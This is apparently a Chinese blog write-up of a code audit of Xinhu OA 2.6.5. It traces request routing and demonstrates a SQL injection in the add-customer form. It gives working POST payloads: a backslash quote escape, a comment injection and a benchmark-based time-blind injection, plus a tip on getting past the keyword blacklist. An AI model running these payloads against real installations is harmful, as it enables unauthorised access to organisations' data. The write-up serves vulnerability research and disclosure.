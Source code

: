 ```yaml
---
title: 信呼oa审计
date: 2024-12-11 13:59:42
tags:
---
```


# 0.源码下载

https://github.com/rainrocka/xinhu.git

版本：信呼OA的2.6.5版本

# 1.客户管理处存在sql注入

新增客户

![image-20241211135947241](信呼oa审计/image-20241211135947241.png)

## 抓包查看路由

![image-20241211141944099](信呼oa审计/image-20241211141944099.png)

## 源码定位

index.php#34 引用了View.php

![image-20241211142000159](信呼oa审计/image-20241211142000159.png)

View.php中对参数解析，再引用

![image-20241211142052217](信呼oa审计/image-20241211142052217.png)

```
POST /index.php?a=save&m=mode_customer|input&d=flow&ajaxbool=true&rnd=792761
```

变为

```
$m = mode_customer
$_m=input
$a=save
$actname = saveAjax
```

![image-20241211142028415](信呼oa审计/image-20241211142028415.png)

如上图，最终调用 mode_customerClassAction.saveAjax

由于mode_customerClassAction没有saveAjax，因此最终调用inputAction.saveAjax

![image-20241211142519559](信呼oa审计/image-20241211142519559.png)

![image-20241211142601009](信呼oa审计/image-20241211142601009.png)

在241进行数据库保存，为了方便调试，将$uaarr输出进行参数查看

![image-20241211143500206](信呼oa审计/image-20241211143500206.png)

## 动态调试

在新增客户中，随便找个参数，通过添加 \ 进行绕过

```
linkname=a3\
```

payload为

```
id=0&sxuanfileid=&name=1234&laiyuan=%E7%BD%91%E4%B8%8A%E5%BC%80%E6%8B%93&unitname=&type=%E4%BA%92%E8%81%94%E7%BD%91&linkname=a3\&email=&tel=22&mobile=33&sheng=&shi=44&address=&addresslatlng=&shibieid=&openbank=&cardid=&routeline=&explain=&fileid=&status=1&isstat=0&isgys=0&sysmodeid=7&sysmodenum=customer
```

此时返回包出现报错

![image-20241211143612285](信呼oa审计/image-20241211143612285.png)

进入日志查看具体的sql语法

![image-20241211143635809](信呼oa审计/image-20241211143635809.png)

sql语法使用单引号闭合并且没有对 \ 进行处理导致引号错误

改一下payload

```
linkname=a3\
explain=1%20--%20
```

报错如下图

![image-20241211144333907](信呼oa审计/image-20241211144333907.png)

将语句复制到sql查询中查看，此时引号闭合且 1 成功逃逸

![image-20241211144349374](信呼oa审计/image-20241211144349374.png)

将explain中的1删掉

![image-20241211144439955](信呼oa审计/image-20241211144439955.png)

成功添加用户

将1改成时间盲注的语句

```
linkname=a3\
explain=;(select(if(1=1,(benchmark(10000000,SHA1('Hello'))),2)=1))%20--%20
```

还是报错了

![image-20241211145715648](信呼oa审计/image-20241211145715648.png)

时间盲注语句在sql查询中能正常执行，但在这里不行。说明可能是分号的问题，将分号去掉改成逗号

```
linkname=a3\
explain=,`explain`=(select(if(1=1,(benchmark(10000000,SHA1(111))),2)=1))%20--%20
```

![image-20241211145739182](信呼oa审计/image-20241211145739182.png)

成功盲注

# 补充

测试过程中发现黑名单，可以直接去源码中搜被过滤的字符串从而找到黑名单;加逗号是因为php数组以逗号隔开元素

```
select被过滤 -> select,
```

![image-20241211150215134](信呼oa审计/image-20241211150215134.png)

![image-20241211150258765](信呼oa审计/image-20241211150258765.png)
